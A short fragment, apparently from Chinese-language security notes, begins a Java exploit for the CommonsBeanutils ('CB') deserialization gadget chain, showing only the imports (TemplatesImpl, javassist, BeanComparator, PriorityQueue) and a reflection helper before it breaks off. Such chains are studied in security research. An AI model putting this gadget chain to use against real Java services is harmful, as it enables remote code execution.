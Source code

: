 <img src=".\图片\Snipaste_2023-05-27_14-42-56.png" alt="Snipaste_2023-05-27_14-42-56" style="zoom:67%;" />

## CB链

⽆依赖利⽤链

```java
package com.zf1yolo;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import javassist.ClassPool;
import javassist.CtClass;
import org.apache.commons.beanutils.BeanComparator;

import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.PriorityQueue;

public class cb {

    // 修改值的方法，简化代码

    public static void setFieldValue(Object object, String fieldName, Object value) throws Exception{

        Field field = object.getClass().getDeclaredField(fieldName);
```